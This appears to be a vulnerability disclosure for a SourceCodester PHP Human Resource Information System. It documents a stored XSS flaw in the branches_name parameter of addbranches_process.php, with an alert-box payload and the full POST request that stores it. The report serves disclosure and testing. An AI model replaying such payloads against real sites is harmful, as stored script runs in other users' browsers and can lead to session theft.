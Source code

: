 #### BUG_AUTHOR:LIU WEIYU
## Human Resource Information System – Stored XSS on (Superadmin_Dashboard/process/addbranches_process.php branches_name parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/14714/human-resource-information-using-phpmysqliobject-orientedcomplete-free-sourcecode.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
Superadmin_Dashboard/process/addbranches_process.php 
On this page, branches_name parameter is vulnerable to Stored XSS Attack 
### Proof of vulnerability:
#### Payload：
<script>alert(1)</script>
#### Request:
```
POST http://localhost/Human%20Resource%20Information%20System%202020/Superadmin_Dashboard/process/addbranches_process.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 59
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/Human%20Resource%20Information%20System%202020/Superadmin_Dashboard/Add_braches.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dmbqp07an31thhtebo1f649jii
Connection: close

branches_name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&bran=
```
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/6b8c391e-c2b4-4e26-9267-751b92e08a12">

### Trigger popup(The data has been stored in the database)：
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/9b45af51-78c8-4722-9085-68e5ae38c6dd">

